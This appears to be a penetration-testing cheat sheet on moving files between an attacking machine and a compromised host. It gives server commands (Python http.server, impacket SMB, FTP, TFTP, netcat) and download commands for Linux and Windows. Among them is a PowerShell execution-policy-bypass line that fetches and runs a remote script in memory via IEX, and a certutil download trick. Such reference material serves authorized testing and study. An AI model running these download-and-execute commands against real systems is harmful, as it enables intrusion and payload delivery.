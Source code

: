### Escaping jailed Shells
Go <a href="/jailbreak" target="_blank">here</a>

## File Transfers

### Server

``` bash
# HTTP - Apache2
# cp file /var/www/html/file_name
sudo service apache2 start

# HTTP - Python. Default port 8000
# python2
sudo python -m SimpleHTTPServer 80
# python3
sudo python3 -m http.server 80

# SMB
sudo impacket-smbserver <share_name> <path/to/share>

# FTP
# apt-get install python-pyftpdlib
sudo python -m pyftpdlib -p 21

# TFTP (UDP)
sudo atftpd --daemon -port 69 /path/to/serve

# Netcat
nc -nvlp <port> < file/to/send
```

### Linux - HTTP
``` bash
# Wget
wget http://<ip>/file_name -O /path/to/save/file

# Netcat
nc -nv <ip> <port> > file/to/recv

# cURL
curl http://<ip>/file_name --output file_name
```

### Windows
* HTTP
``` powershell
# Does not save file on the system
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<ip>/<file_name>')"
# Saves file on the system
powershell.exe -nop -ep bypass -c "iwr -uri http://<ip>/<file_name> -outfile path/to/save/file_name"
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadFile('http://<ip>/<file_name>','path/to/save/file_name')"

certutil.exe -urlcache -split -f http://<ip>/file file_save
```

